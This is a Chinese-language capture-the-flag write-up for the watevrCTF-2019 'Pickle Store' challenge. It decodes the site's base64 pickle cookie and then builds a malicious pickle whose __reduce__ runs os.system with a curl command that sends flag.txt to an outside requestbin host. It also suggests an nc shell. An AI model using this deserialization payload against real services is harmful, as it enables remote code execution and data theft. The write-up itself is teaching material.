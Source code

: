 ```yaml
---
[watevrCTF-2019]Pickle Store
---
```


- python反序列化

之前写过一道cookie store，把cookiebase64解码改一下再编码即可 

这道题上来的界面也一样，有500块，然后可以购买不同价位的东西，每次购买cookie就会发生一次变化

所以cookie里应该存储着和我们剩余金钱有关的信息

我们再根据题目名字的提示pickle

找到了python的pickle库

写个脚本解一下

```python
import pickle
import base64
print(pickle.loads(base64.b64decode("gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu")))
```



```
{'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
```

解出来果然存储了moeny，但是有hmac密码加密，所以找到密码不太可能

我们利用这个反序列化漏洞

我们上传上去的cookie会先被base64解码然后反序列化

所以我们在本地可以构造好python 的类然后序列化再base64加密

```python
import pickle
import base64

class A(object):
  def __reduce__(self):
    import os
    return (os.system,('curl http://http.requestbin.buuoj.cn/ya8xpeya -d "`cat flag.txt`"',))
  
a = A()
print(base64.b64encode(pickle.dumps(a)))
```

在cmd输入系统命令即可

将结果替换cookie中的值，然后去网页即可反弹执行后的结果，当然如果能访问外网，也可以用nc弹shell



